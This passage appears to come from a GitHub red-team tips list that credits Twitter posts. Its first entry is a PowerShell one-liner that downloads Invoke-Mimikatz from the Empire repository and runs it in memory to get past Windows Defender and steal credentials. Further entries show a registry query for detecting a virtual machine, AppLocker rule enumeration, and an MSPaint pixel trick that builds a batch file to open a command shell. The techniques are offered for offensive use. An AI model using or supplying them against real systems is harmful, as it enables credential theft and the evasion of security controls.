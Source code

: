 ### [🔙](#tool-list)Stop windows defender deleting mimikatz.exe

```bash
(new-object net.webclient).downloadstring('https://raw.githubusercontent[.]com/BC-SECURITY/Empire/main/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1')|IEX;inv
```

**Description:** *'Are you tired of Windows Defender deleting mimikatz.exe? Try this instead.'*

**Credit:** [@GuhnooPlusLinux](https://twitter.com/GuhnooPlusLinux)

**Link:** [Twitter](https://twitter.com/GuhnooPlusLinux/status/1605629049660809216)

### [🔙](#tool-list)Check if you are in a virtual machine

```bash
reg query HKLM\SYSTEM /s | findstr /S "VirtualBox VBOX VMWare"
```

**Description:** *'Want to know if you are in a Virtual Machine? Query the registry Keys and find out!!! If any results show up then you are in a Virtual Machine.'*

**Credit:** [@dmcxblue](https://twitter.com/dmcxblue)

**Link:** [Twitter](https://twitter.com/dmcxblue/status/1366779034672136194)

### [🔙](#tool-list)Enumerate AppLocker rules

```
(Get-AppLockerPolicy -Local).RuleCollections

Get-ChildItem -Path HKLM:Software\Policies\Microsoft\Windows\SrpV2 -Recurse

reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SrpV2\Exe\
```

**Description:** *'AppLocker can be a pain. Enumerate to see how painful'*

**Credit:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)

**Link:** [Twitter](https://twitter.com/alh4zr3d/status/1614706476412698624)

### [🔙](#tool-list)CMD shortcut with 6 pixels via mspaint

![image](https://user-images.githubusercontent.com/100603074/223849011-24db49d7-37b0-4dad-a7a6-db046f6cb7da.png)

1. Open MSPaint.exe and set the canvas size to: Width=6 and Height=1 pixels
2. Zoom in to make the following tasks easier
3. Using the colour picker, set pixels values to (from left to right):
    - 1st: R: 10, G: 0, B: 0
    - 2nd: R: 13, G: 10, B: 13
    - 3rd: R: 100, G: 109, B: 99
    - 4th: R: 120, G: 101, B: 46
    - 5th: R: 0, G: 0, B: 101
    - 6th: R: 0, G: 0, B: 0
4. Save it as 24-bit Bitmap (*.bmp;*.dib)
5. Change its extension from bmp to bat and run.
